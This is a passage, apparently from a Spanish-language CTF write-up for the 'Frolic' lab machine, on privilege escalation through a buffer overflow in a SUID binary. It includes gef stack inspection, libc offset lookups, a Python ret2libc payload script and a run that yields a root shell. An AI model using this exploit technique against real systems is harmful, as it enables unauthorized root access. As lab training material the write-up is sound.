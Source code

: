 Vamos a observar la pila:
```
gef➤  disas main
0x080484e1 <+70>:	call   0x80484f8 <vuln>
gef➤ disas vuln
0x08048530 <+56>:	leave
gef➤ b *0x08048530
gef➤ r
gef➤ x/16wx $esp
0xffffd0b0:	0xffffd108	0xf7fa4ff4	0x61616161	0x61616162
0xffffd0c0:	0x61616163	0x61616164	0x61616165	0x61616166
0xffffd0d0:	0x61616167	0x61616168	0x61616169	0x6161616a
0xffffd0e0:	0x6161616b	0x6161616c	0x6161616d	0x6161616e
```

Es decir empieza esp en 0xffffd0b0, aunque empezamos a escribir en 0xffffd0b8 y en 0xffffd0ec.

Para hacer ret2libc se tiene que conseguir estas tres direcciones y pasarselas como input:
> RET2LIBC: offset + función(&system) + retorno(&exit) + argumentos("bin/sh")

En lenguaje de bajo nivel

1.  Se crea la pila con los argumentos (bin/sh), que usa la función system
2.  Se ejecuta, se borran estos argumentos de la pila con LEAVE
3.  Queda la direccion de retorno (a donde va cuando acaba) que se pasa al eip -> POP EIP

Direcciones para ret2lib (las calculamos en la maquina victima porque son diferentes a las nuestras):
Primero obtenemos la base de libc del sistema y a esa se le añaden todos los offsets (bin/sh, system@@, exit@@)
El binario utiliza la libc del sistema, por lo que esas direcciones aplican para él (digamos que libc es una 
liberia que tiene que cargar, como cuando en python importamos modiulos como requests)

```console
www-data@frolic:/tmp$ ldd /home/ayush/.binary/rop
		libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)
www-data@frolic:/tmp$ strings -atx /lib/i386-linux-gnu/libc.so.6 | grep "bin/sh" 
		15ba0b /bin/sh
www-data@frolic:/tmp$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system@@| exit@@"
   141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
  1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
```
```python
from struct import pack

offset = b'A' * 52
libc = 0xb7e19000
system = pack("<I", libc + 0x0003ada0)
Exit = pack("<I", libc + 0x0002e9d0)
bin_sh = pack("<I", libc + 0x15ba0b)
payload = offset + system + Exit + bin_sh
print(payload)
```
```console
www-data@frolic:/tmp$ /home/ayush/.binary/rop $(python /tmp/exploit.py)
# whoami
root
```
![frolicc](https://user-images.githubusercontent.com/96772264/198896653-be9c04d3-bf46-4fb1-901e-b45c94776a67.png)

